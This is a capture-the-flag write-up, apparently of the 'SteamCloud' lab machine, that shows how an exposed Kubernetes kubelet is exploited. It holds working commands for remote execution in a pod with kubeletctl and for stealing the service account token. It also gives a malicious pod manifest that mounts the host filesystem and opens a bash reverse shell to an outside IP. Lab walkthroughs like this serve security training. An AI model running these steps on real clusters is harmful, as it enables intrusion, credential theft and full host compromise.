




# SteamCloud
## Enumeration
- `nmap`
```
└─$ nmap -p- -Pn 10.10.11.133 -T4                                                                           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-22 17:58 BST
Nmap scan report for 10.10.11.133 (10.10.11.133)
Host is up (0.15s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
2379/tcp  open  etcd-client
2380/tcp  open  etcd-server
8443/tcp  open  https-alt
10249/tcp open  unknown
10250/tcp open  unknown
10256/tcp open  unknown
```
```
└─$ nmap -sV -sC -Pn -p22,2379,2380,8443,10249,10250,10256 10.10.11.133 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-22 18:48 BST
Nmap scan report for 10.10.11.133 (10.10.11.133)
Host is up (0.16s latency).

PORT      STATE  SERVICE          VERSION
22/tcp    open   ssh              OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fc:fb:90:ee:7c:73:a1:d4:bf:87:f8:71:e8:44:c6:3c (RSA)
|   256 46:83:2b:1b:01:db:71:64:6a:3e:27:cb:53:6f:81:a1 (ECDSA)
|_  256 1d:8d:d3:41:f3:ff:a4:37:e8:ac:78:08:89:c2:e3:c5 (ED25519)
2379/tcp  open   ssl/etcd-client?
| ssl-cert: Subject: commonName=steamcloud
| Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.10.11.133, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2023-08-22T16:56:47
|_Not valid after:  2024-08-21T16:56:48
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  h2
2380/tcp  open   ssl/etcd-server?
| tls-alpn: 
|_  h2
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=steamcloud
| Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.10.11.133, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2023-08-22T16:56:47
|_Not valid after:  2024-08-21T16:56:48
8443/tcp  open   ssl/https-alt
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=minikube/organizationName=system:masters
| Subject Alternative Name: DNS:minikubeCA, DNS:control-plane.minikube.internal, DNS:kubernetes.default.svc.cluster.local, DNS:kubernetes.default.svc, DNS:kubernetes.default, DNS:kubernetes, DNS:localhost, IP Address:10.10.11.133, IP Address:10.96.0.1, IP Address:127.0.0.1, IP Address:10.0.0.1
| Not valid before: 2023-08-21T16:56:46
|_Not valid after:  2026-08-21T16:56:46
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 403 Forbidden
|     Audit-Id: f15a6d51-34b1-4d39-8da4-4ceb0f11d6f4
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Kubernetes-Pf-Flowschema-Uid: 151a61c3-ebac-4505-9b4c-ec051a6bc238
|     X-Kubernetes-Pf-Prioritylevel-Uid: beb11e57-7071-48e1-adcd-ed84580800b3
|     Date: Tue, 22 Aug 2023 17:48:25 GMT
|     Content-Length: 212
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot get path "/nice ports,/Trinity.txt.bak"","reason":"Forbidden","details":{},"code":403}
|   GetRequest: 
|     HTTP/1.0 403 Forbidden
|     Audit-Id: 0cf5de81-a588-4ef6-a99a-ec85aa73c024
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Kubernetes-Pf-Flowschema-Uid: 151a61c3-ebac-4505-9b4c-ec051a6bc238
|     X-Kubernetes-Pf-Prioritylevel-Uid: beb11e57-7071-48e1-adcd-ed84580800b3
|     Date: Tue, 22 Aug 2023 17:48:23 GMT
|     Content-Length: 185
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot get path "/"","reason":"Forbidden","details":{},"code":403}
|   HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Audit-Id: f0a058c6-4e86-431e-b38a-161f09c1237c
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Kubernetes-Pf-Flowschema-Uid: 151a61c3-ebac-4505-9b4c-ec051a6bc238
|     X-Kubernetes-Pf-Prioritylevel-Uid: beb11e57-7071-48e1-adcd-ed84580800b3
|     Date: Tue, 22 Aug 2023 17:48:24 GMT
|     Content-Length: 189
|_    {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot options path "/"","reason":"Forbidden","details":{},"code":403}
|_http-title: Site doesn't have a title (application/json).
10249/tcp open   http             Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
10250/tcp open   ssl/http         Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| ssl-cert: Subject: commonName=steamcloud@1692723410
| Subject Alternative Name: DNS:steamcloud
| Not valid before: 2023-08-22T15:56:49
|_Not valid after:  2024-08-21T15:56:49
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
10256/tcp open   http             Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8443-TCP:V=7.94%T=SSL%I=7%D=8/22%Time=64E4F50B%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,22F,"HTTP/1\.0\x20403\x20Forbidden\r\nAudit-Id:\x200cf5d
SF:e81-a588-4ef6-a99a-ec85aa73c024\r\nCache-Control:\x20no-cache,\x20priva
SF:te\r\nContent-Type:\x20application/json\r\nX-Content-Type-Options:\x20n
SF:osniff\r\nX-Kubernetes-Pf-Flowschema-Uid:\x20151a61c3-ebac-4505-9b4c-ec
SF:051a6bc238\r\nX-Kubernetes-Pf-Prioritylevel-Uid:\x20beb11e57-7071-48e1-
SF:adcd-ed84580800b3\r\nDate:\x20Tue,\x2022\x20Aug\x202023\x2017:48:23\x20
SF:GMT\r\nContent-Length:\x20185\r\n\r\n{\"kind\":\"Status\",\"apiVersion\
SF:":\"v1\",\"metadata\":{},\"status\":\"Failure\",\"message\":\"forbidden
SF::\x20User\x20\\\"system:anonymous\\\"\x20cannot\x20get\x20path\x20\\\"/
SF:\\\"\",\"reason\":\"Forbidden\",\"details\":{},\"code\":403}\n")%r(HTTP
SF:Options,233,"HTTP/1\.0\x20403\x20Forbidden\r\nAudit-Id:\x20f0a058c6-4e8
SF:6-431e-b38a-161f09c1237c\r\nCache-Control:\x20no-cache,\x20private\r\nC
SF:ontent-Type:\x20application/json\r\nX-Content-Type-Options:\x20nosniff\
SF:r\nX-Kubernetes-Pf-Flowschema-Uid:\x20151a61c3-ebac-4505-9b4c-ec051a6bc
SF:238\r\nX-Kubernetes-Pf-Prioritylevel-Uid:\x20beb11e57-7071-48e1-adcd-ed
SF:84580800b3\r\nDate:\x20Tue,\x2022\x20Aug\x202023\x2017:48:24\x20GMT\r\n
SF:Content-Length:\x20189\r\n\r\n{\"kind\":\"Status\",\"apiVersion\":\"v1\
SF:",\"metadata\":{},\"status\":\"Failure\",\"message\":\"forbidden:\x20Us
SF:er\x20\\\"system:anonymous\\\"\x20cannot\x20options\x20path\x20\\\"/\\\
SF:"\",\"reason\":\"Forbidden\",\"details\":{},\"code\":403}\n")%r(FourOhF
SF:ourRequest,24A,"HTTP/1\.0\x20403\x20Forbidden\r\nAudit-Id:\x20f15a6d51-
SF:34b1-4d39-8da4-4ceb0f11d6f4\r\nCache-Control:\x20no-cache,\x20private\r
SF:\nContent-Type:\x20application/json\r\nX-Content-Type-Options:\x20nosni
SF:ff\r\nX-Kubernetes-Pf-Flowschema-Uid:\x20151a61c3-ebac-4505-9b4c-ec051a
SF:6bc238\r\nX-Kubernetes-Pf-Prioritylevel-Uid:\x20beb11e57-7071-48e1-adcd
SF:-ed84580800b3\r\nDate:\x20Tue,\x2022\x20Aug\x202023\x2017:48:25\x20GMT\
SF:r\nContent-Length:\x20212\r\n\r\n{\"kind\":\"Status\",\"apiVersion\":\"
SF:v1\",\"metadata\":{},\"status\":\"Failure\",\"message\":\"forbidden:\x2
SF:0User\x20\\\"system:anonymous\\\"\x20cannot\x20get\x20path\x20\\\"/nice
SF:\x20ports,/Trinity\.txt\.bak\\\"\",\"reason\":\"Forbidden\",\"details\"
SF::{},\"code\":403}\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.78 seconds
```
- Port `8443`
  - TLS information: `DNS:minikubeCA, DNS:control-plane.minikube.internal, DNS:kubernetes.default.svc.cluster.local, DNS:kubernetes.default.svc, DNS:kubernetes.default, DNS:kubernetes, DNS:localhost, IP Address:10.10.11.133, IP Address:10.96.0.1, IP Address:127.0.0.1, IP Address:10.0.0.1`
  - Looks like `kubernetes`-related
  - We also have kurbenetes ports that are listed in [docs](https://kubernetes.io/docs/reference/networking/ports-and-protocols/)



- The instance could be a [minikube](https://minikube.sigs.k8s.io/docs/) based on `TLS` info
  - Port `8443` is default port `minikube`'s API
    - https://minikube.sigs.k8s.io/docs/commands/start/
## Foothold/User
- I installed [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)
  - But it prompts for auth



- We can check `Kubelet API` on port `10250`
  - But we need to install [kubeletctl](https://github.com/cyberark/kubeletctl)



- We can see that `nginx` is in `default` namespace
  - Trying to `exec`
  - We could also run to check for `rce` in pods `kubeletctl -s 10.10.11.133 scan rce`

```
┌──(kali㉿kali)-[~]
└─$ kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
uid=0(root) gid=0(root) groups=0(root)
```
- We are `root`
  - Let's check `/root` folder and get a flag

```
┌──(kali㉿kali)-[~]
└─$ kubeletctl -s 10.10.11.133 exec "ls -lha /root" -p nginx -c nginx
total 12K
drwxr-xr-x 2 root root 4.0K Nov 30  2021 .
drwxr-xr-x 1 root root 4.0K Aug 23 17:03 ..
-rw-r--r-- 2 root root   33 Aug 23 17:02 user.txt
                                                                                                                                                                                                                                 
┌──(kali㉿kali)-[~]
└─$ kubeletctl -s 10.10.11.133 exec "cat /root/user.txt" -p nginx -c nginx
e0c0****************************
```
## Root
- We can get shell using `exec`:
  - Based on this [post](https://www.cyberark.com/resources/threat-research-blog/kubernetes-pentest-methodology-part-1)
```
┌──(kali㉿kali)-[~]
└─$ kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx
root@nginx:/#
```

- Let's enumerate
  - Follow this [post](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/kubernetes-enumeration)
    - Also this [post](https://labs.withsecure.com/publications/attacking-kubernetes-through-kubelet)
  - We need to look for [Service Account](https://kubernetes.io/docs/tasks/configure-pod-container/configure-service-account/#use-the-default-service-account-to-access-the-api-server) tokens
  - `Service Account` is an object managed by Kubernetes and used to provide an identity for processes that run in a pod
  - Token could be located in:
    - `/run/secrets/kubernetes.io/serviceaccount`
    - `/var/run/secrets/kubernetes.io/serviceaccount`
    - `/secrets/kubernetes.io/serviceaccount`
  - contain the files:
    - `ca.crt`: It's the ca certificate to check kubernetes communications
    - `namespace`: It indicates the current namespace
    - `token`: It contains the service token of the current pod.


```
root@nginx:/# ls -lha /run/secrets/kubernetes.io/serviceaccount
ls -lha /run/secrets/kubernetes.io/serviceaccount
total 4.0K
drwxrwxrwt 3 root root  140 Aug 23 17:51 .
drwxr-xr-x 3 root root 4.0K Aug 23 17:03 ..
drwxr-xr-x 2 root root  100 Aug 23 17:51 ..2023_08_23_17_51_13.026865304
lrwxrwxrwx 1 root root   31 Aug 23 17:51 ..data -> ..2023_08_23_17_51_13.026865304
lrwxrwxrwx 1 root root   13 Aug 23 17:03 ca.crt -> ..data/ca.crt
lrwxrwxrwx 1 root root   16 Aug 23 17:03 namespace -> ..data/namespace
lrwxrwxrwx 1 root root   12 Aug 23 17:03 token -> ..data/token
root@nginx:/# ls -lha /var/run/secrets/kubernetes.io/serviceaccount
ls -lha /var/run/secrets/kubernetes.io/serviceaccount
total 4.0K
drwxrwxrwt 3 root root  140 Aug 23 17:51 .
drwxr-xr-x 3 root root 4.0K Aug 23 17:03 ..
drwxr-xr-x 2 root root  100 Aug 23 17:51 ..2023_08_23_17_51_13.026865304
lrwxrwxrwx 1 root root   31 Aug 23 17:51 ..data -> ..2023_08_23_17_51_13.026865304
lrwxrwxrwx 1 root root   13 Aug 23 17:03 ca.crt -> ..data/ca.crt
lrwxrwxrwx 1 root root   16 Aug 23 17:03 namespace -> ..data/namespace
lrwxrwxrwx 1 root root   12 Aug 23 17:03 token -> ..data/token
```

- Save `ca.crt`
  - `kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx > ca.crt`
- Set token
  - `export token=$(kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)`
- Now we can use `kubectl` using the `token`
```
└─$ kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod
NAME    READY   STATUS    RESTARTS   AGE
nginx   1/1     Running   0          89m
```

- We can list the permissions of the default `Service account`
```
└─$ kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token auth can-i --list
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
pods                                            []                                    []               [get create list]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]

```

- We can `get`, `create`, and `list` pods
  - Let's follow this [examples](https://github.com/BishopFox/badPods/tree/main) and create malicious pod
  - https://cloudsecdocs.com/container_security/offensive/attacks/techniques/reverse_shell/
  - 

```
apiVersion: v1
kind: Pod
metadata:
  name: pentest-pod01
  namespace: default
spec:
  containers:
  - name: pentest-pod01
    image: nginx:1.14.2
    command: ["/bin/bash"]
    args: ["-c", "/bin/bash -i >& /dev/tcp/10.10.16.5/6666 0>&1"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
  ```

- Let's start it
```
└─$ kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token apply -f evilpod.yaml 
pod/pentest-pod01 created
```

- Check `nc` listener



- Now we can add public key to `authorized_keys` and `ssh` to box


